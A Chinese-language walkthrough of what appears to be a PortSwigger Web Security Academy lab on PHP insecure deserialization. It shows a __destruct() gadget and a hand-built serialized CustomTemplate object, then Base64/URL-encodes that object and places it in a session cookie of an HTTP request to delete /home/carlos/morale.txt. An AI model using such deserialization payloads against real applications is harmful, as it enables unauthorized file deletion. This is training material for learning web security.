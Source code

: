 ```php
    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

观察源代码中的 `CustomTemplate` 类包含 `__destruct()` 魔术方法。该方法会调用 `unlink()` 函数，从而删除该 `lock_file_path` 属性路径下的文件。



使用正确的PHP序列化语法创建一个`CustomTemplate`对象，将其`lock_file_path`属性设置为`/home/carlos/morale.txt`。确保数据类型标签和长度指示符正确。最终生成的对象应如下：

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```



如果你想在序列化字符串中包含 template_file_path 属性，则可以使用下面的字符串：

```
O:14:"CustomTemplate":2:{s:18:"template_file_path";s:0:"";s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```



对该对象进行Base64编码和URL编码.

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

```
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3D%3D
```



在Burp Repeater中，用修改后的编码会话Cookie替换原始Cookie，请求路径为 **/my-account?id=wiener** 。发送请求。`__destruct()`魔术方法将自动触发，删除Carlos的文件。

```
GET /my-account?id=wiener HTTP/2
Host: 0a2000a7033a4f5c80ec8a67003a000c.web-security-academy.net
Cookie: session=TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3D%3D
```

